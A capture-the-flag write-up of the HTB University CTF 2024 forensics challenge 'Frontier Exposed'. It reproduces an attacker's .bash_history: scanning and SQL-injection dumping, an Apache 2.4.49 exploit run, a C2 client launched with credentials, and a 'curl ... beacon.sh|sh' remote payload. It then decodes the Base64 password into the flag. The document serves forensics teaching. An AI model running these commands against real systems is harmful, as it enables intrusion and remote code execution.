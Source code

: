 # Frontier Exposed Writeup

### This challenge is the first forensics challenge from the HTB University CTF 2024:Binary Badlands, and categorized as "very easy" in difficulty 

By taking a look at the challenge description, we are able to understand what we are looking for.  
``
The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective.
``

Essentially, a **Username** and  **Password**.  

Starting off, we are presented with a website that is actually a directory listing. We see 8 choices, lets click on the first one. The file `.bash_history` is downloaded. Let's open it and see whats inside:  
![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/HTB%20University%20CTF%202024/forensics/Frontier%20Exposed/images/frontierexposed1.png)

```
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html
```

*Knowing what a `.bash_history` file is gives a significant advantage in this challenge. Searching online,the definition of bash_history is a stored list of all commands a given user has entered into the system*.  

Aha! A set of credentials is presented:
`
--user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
`  

Searching the rest of the directory, we dont find anything truly valuable, although some things can be noted.
The threat actor gathered information about the domain `http://jackcolt.dev`, then searched for an exploit for the web server that hosts the domain, and successfully exploited the vulnerability.

Let's take another look at those credentials. It appears the password is Base64 encoded?!
Lets decode it using [CyberChef](https://gchq.github.io/CyberChef/).
![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/HTB%20University%20CTF%202024/forensics/Frontier%20Exposed/images/frontierexposed2.png)
And we got the flag!

